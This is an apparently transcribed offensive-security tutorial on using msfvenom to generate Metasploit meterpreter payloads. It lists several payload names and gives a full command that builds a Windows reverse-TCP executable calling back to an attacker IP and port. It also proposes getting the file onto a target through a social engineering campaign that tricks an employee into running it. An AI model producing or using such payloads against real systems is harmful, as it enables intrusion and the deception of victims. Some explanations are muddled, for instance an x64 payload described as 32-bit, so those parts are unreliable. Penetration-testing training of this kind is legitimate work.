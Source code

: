 ```
windows/x64/meterpreter_reverse_http
```

This is a 32-bit meterpreter payload. And this is a staged payload.

```
linux/x86/meterpreter/bind_tcp
```

That's a staged payload.

```
linux/x64/meterpreter/reverse_tcp
```

This is the non-staged payload.

```
linux/x64/meterpreter_reverse_https
```

Whenever you're trying to generate a payload with msfvenom, you type in `msfvenom`.

`-a`: specify the target architecture. This is not always required, but it is quite useful. So if I want to generate a 32-bit payload, I can type in `x86`.

`-p`: specify the payload. So if I want to generate a Windows payload, then I can specify the target architecture. But in this case, it's a 32-bit payload. 

`LHOST=`: specify the attacker's information. What IP address will this payload connect to. 

`LPORT=`: And in the case of TCP, we can specify the actual port to connect back to, or rather the port that the payload will connect back to.

Now, this is where the important part comes into play, and that is the output format. So we can generate this payload or essentially output, or generate this payload and output it into an exe file, so that it can directly be executed on the target system. In order to do this, we specify the format option `-f`.

It's very important that you specify the extension here.

```
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f exe > /home/kali/Desktop/Windows_Payloads/payloadx86.exe
```

```
cd Desktop/Windows_Payloads/
ls
```

So you can now transfer this over to the target system, or you can essentially set this up in a social engineering campaign and somehow get the target employee or the person you're targeting to download it and then execute it on this system. However, before they execute it, you need to set up a handler. And before we actually get into how to set up a handler, let's take a look at how to generate another type of payload or rather changing the actual architecture of the payload that we're generating.

To generate a 64-bit meterpreter payload, and we're going to change the architecture to `x64`. And then, as well as in the payload, we are also going to say this is an `x64` meterpreter payload. And we're going to output it into the exe format. So it's really that simple in regards to, changing the architecture.

